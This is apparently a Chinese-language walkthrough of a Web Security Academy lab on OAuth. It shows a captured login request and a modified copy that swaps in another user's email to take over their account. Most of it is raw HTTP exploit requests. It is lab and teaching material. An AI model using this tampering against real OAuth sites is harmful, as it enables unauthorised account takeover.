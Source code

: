 这是一个博客页面，我们可以用其他网络应用的账号，利用OAuth实现授权登录。输入正确的账号密码后，我们登录成功，通过使用BurpSuite抓包，我们可以分析出授权的请求如下：

```plain
POST /authenticate HTTP/1.1
Host: accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Cookie: session=4XXdLxkBBr2PHqqJiuogfnxTH5o84ixX
Content-Length: 103
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"email":"wiener@hotdog.com","username":"wiener","token":"G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg"}

```

从这个请求中，我们容易分析出授权的令牌信息即为 Token 的内容。现在我们已知一个用户的邮箱为carlos@carlos-montoya.net，尝试用如下报文实现对这个邮箱对应账户的登录。

```plain
POST /authenticate HTTP/1.1
Host: accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Cookie: session=4XXdLxkBBr2PHqqJiuogfnxTH5o84ixX
Content-Length: 103
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"wiener","token":"G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg"}

```
